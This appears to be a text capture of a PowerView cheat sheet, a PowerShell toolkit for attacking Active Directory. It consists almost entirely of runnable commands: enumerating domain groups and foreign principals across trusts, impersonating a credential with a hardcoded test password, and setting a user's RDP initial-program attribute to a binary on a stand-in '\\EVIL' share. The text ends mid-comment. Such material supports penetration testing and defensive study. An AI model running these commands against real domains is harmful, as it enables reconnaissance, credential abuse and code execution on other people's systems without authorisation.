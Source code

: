 # enumerate all groups in a domain that don't have a global scope, returning just group names
```
Get-DomainGroup -GroupScope NotGlobal -Properties name
```
# enumerate all foreign users in the global catalog, and query the specified domain localgroups for their memberships
#   query the global catalog for foreign security principals with domain-based SIDs, and extract out all distinguishednames
```
$ForeignUsers = Get-DomainObject -Properties objectsid,distinguishedname -SearchBase "GC://testlab.local" -LDAPFilter '(objectclass=foreignSecurityPrincipal)' | ? {$_.objectsid -match '^S-1-5-.*-[1-9]\d{2,}$'} | Select-Object -ExpandProperty distinguishedname
$Domains = @{}
$ForeignMemberships = ForEach($ForeignUser in $ForeignUsers) {
    # extract the domain the foreign user was added to
    $ForeignUserDomain = $ForeignUser.SubString($ForeignUser.IndexOf('DC=')) -replace 'DC=','' -replace ',','.'
    # check if we've already enumerated this domain
    if (-not $Domains[$ForeignUserDomain]) {
        $Domains[$ForeignUserDomain] = $True
        # enumerate all domain local groups from the given domain that have membership set with our foreignSecurityPrincipal set
        $Filter = "(|(member=" + $($ForeignUsers -join ")(member=") + "))"
        Get-DomainGroup -Domain $ForeignUserDomain -Scope DomainLocal -LDAPFilter $Filter -Properties distinguishedname,member
    }
}
$ForeignMemberships | fl
```
# if running in -sta mode, impersonate another credential a la "runas /netonly"
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
```
# ... action
```
Invoke-RevertToSelf
```
# enumerates computers in the current domain with 'outlier' properties, i.e. properties not set from the firest result returned by Get-DomainComputer
```
Get-DomainComputer -FindOne | Find-DomainObjectPropertyOutlier
```
# set the specified property for the given user identity
```
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
```
# Set the owner of 'dfm' in the current domain to 'harmj0y'
